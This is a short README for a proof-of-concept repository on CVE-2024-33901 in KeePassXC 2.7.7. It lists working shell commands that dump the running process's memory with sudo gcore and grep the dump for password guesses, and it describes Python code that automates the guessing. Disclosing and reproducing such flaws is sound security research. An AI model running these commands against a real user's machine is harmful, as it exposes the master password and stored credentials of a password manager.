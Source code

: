# CVE-2024-33901-ProofOfConcept
Short program that demonstrates the vulnerability CVE-2024-33901 in KeePassXC version 2.7.7

This repo contains all of our team members' code, but my original repository was in:

https://github.com/gmikisilva/CVE-2024-33901-ProofOfConcept/edit/main/README.md

## How to replicate the vulnerability
1. Open KeePassXC and authenticate the database
2. While the database is authenticated, create a memory dump file for it

  This can be achieved by getting the PID, which can be done with this command:
  
    ps aux | grep keepassxc
  
  And then running this command: sudo gcore -o keepassxc_dump PID_HERE
  
  For example, if the PID that you got was 1234, then the command would have to be:
  
    sudo gcore -o keepassxc_dump 1234
  
3. Finally, you can run this command: cat keepassxc_dump.PID_HERE | strings | grep "password guess here"

  So if the PID was 1234, the command would be:

     cat keepassxc_dump.1234 | strings | grep "password guess here"

Once the memory dump file is created, the attack can be performed even if the database is locked again or if KeePassXC is closed.

The provided Python code performs all of these steps, and it attempts multiple password guesses based on the text files provided.
